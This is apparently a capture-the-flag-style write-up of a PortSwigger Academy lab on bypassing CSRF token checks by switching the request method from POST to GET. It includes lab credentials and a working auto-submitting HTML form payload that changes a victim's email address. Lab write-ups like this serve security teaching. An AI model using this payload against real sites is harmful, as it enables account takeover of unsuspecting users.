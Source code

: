 # Lab Writeup: CSRF where token validation depends on request method

URL: https://portswigger.net/web-security/learning-paths/csrf/csrf-common-flaws-in-csrf-token-validation/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method

## Description

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution

1. Login using `wiener:peter`
2. Try changing the email address then intercept using burp:

   ![csrf-req-method](/assets/csrf-req-method.png)

   From the above intercepted request and response, we know that the URL to change the email is `/my-account/change-email` with the method `POST` we could also see that a **CSRF token** is required to do the `POST` request

3. Create the following payload:

   ```html
   <!DOCTYPE html>
   <html>
     <body>
       <form
         action="https://0a0f00650315d4d88045b73d00f8004f.web-security-academy.net/my-account/change-email"
         method="GET"
       >
         <input type="text" name="email" value="hacker@gmail.com" />
       </form>
       <script type="text/javascript">
         // automatically submits form on display
         document.forms[0].submit();
       </script>
     </body>
   </html>
   ```

   From the above payload, we know that the request type is `GET` which bypasses the required CSRF token

4. Store, send exploit to victim and the lab should be solved:

   ![csrf-req-method-1](/assets/csrf-req-method-1.png)

